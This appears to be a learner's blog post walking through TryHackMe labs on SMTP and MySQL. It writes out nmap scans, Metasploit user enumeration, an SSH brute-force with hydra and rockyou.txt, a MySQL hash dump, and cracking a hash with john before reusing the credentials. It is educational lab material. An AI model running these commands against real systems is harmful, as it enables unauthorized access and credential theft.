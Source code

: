 ```yaml
---
title: Day 17
date: 2022-04-30
layout: post.njk
---
```


{{ page.date.toDateString }}

I'm getting an early jump on doing this today. Hopefully I can finish the whole module.

For task 2 for SMTP were going to use metasploit to enumerate the users available on the server using the [smtp_version](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/smtp/smtp_version.md). Its my first time using metasploit in THM so it should be interesting.


First I ran my nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 12:55 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>
>`Host is up (0.00058s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT   STATE SERVICE`
>
>`22/tcp open  ssh`
>
>`25/tcp open  smtp`
>
>`MAC Address: 02:1C:AF:59:C1:05 (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.32 seconds`

The I ran the following commands in metasploit:

>`msfconsole`
>
>`smtp_version`
>
>`use auxiliary/scanner/smtp/smtp_version`
>
>`set RHOSTS <ip>`
>
>`run`
>
>`[+] <ip>     - <ip>:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a`
>
>`[*] <ip>      - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`
>
>`search smtp_enum`
>
>`use auxiliary/scanner/smtp/smtp_enum`
>
>`set RHOSTS <ip>`
>
>`set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt`
>
>`run`
>
>`[*] <ip>      - <ip>  Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)`
>
>`[+] <ip>       - <ip>  Users found: administrator`
>
>`[*] <ip>       - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`

So now we know we have a user name: `administrator` on the system and we are going to use [hydra](https://www.kali.org/tools/hydra/) to brute force it.

So I ran:

>'hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.221.111 ssh`

Then I ssh'ed in and got the flag!

Last one in this module: MySQL

MySQL is a Relational Database Management System (RDMS).

MySQL uses a client server model and can run on Linux and Windows.

First in the exercise it gives us the credentials `root:password`.

I run my nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 13:30 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>`Host is up (0.0011s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT     STATE SERVICE`
>
>`22/tcp   open  ssh`
>
>`3306/tcp open  mysql`
>`MAC Address: 02:52:51:2B:7F:0F (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds`

I verified that I could connect to to mysql using the client:
>`mysql -h <ip> -u root -p`

Then I moved into metasploit:
>`msfconsle`
>
>`search mysql_sql`
>
>`use auxiliary/admin/mysql/mysql_sql`

I then set all the options for RHOST, USERNAME, and PASSWORD. If you run without setting the SQL option it runs `select version()`. After I ran I got results back for that and I changed SQL to `show databases` and I got back the databases on the system.
>`msf5 auxiliary(admin/mysql/mysql_sql) > run`
>
>`[*] Running module against <ip>`
>
>`[*] <ip>:3306 - Sending statement: 'show databases'...`
>`[*] <ip>:3306 -  | information_schema |`
>`[*] <ip>:3306 -  | mysql |`
>`[*] <ip>:3306 -  | performance_schema |`
>`[*] <ip>:3306 -  | sys |`
>`[*] Auxiliary module execution completed`

I then used `auxiliary/scanner/mysql/mysql_schemadump`  to dump the various table schemas and `auxiliary/scanner/mysql/mysql_hashdump` to dump the password hashes.

In the list of password hashes there was: `carl:*EA031893AA21444B170FC2162A56978B8CEECE18` so I put that in a text file called `hash.txt` and ran:
>`john hash.txt`

and got: `doggie           (carl)`

I then reused those credentials for ssh and was able to get the final flag.

This module was great just like the first one. I got exposure to a lot of tools and started to get the basics of metasploit down. I think metasploit is kind of looked down upon because it it kind of a crutch and does a lot of work for you without understanding what is going on. For now though Its helpful to use.

I think one of the big things I learned from these is that an attack path usually invovles some pivots. You may exploit some service that gives you some info that you use with another service, which leads you to more info and maybe the ability to finally gain a shell.

Here a couple extra links for more reading:
[VPN exploits](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)
[Common Exploits](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.html)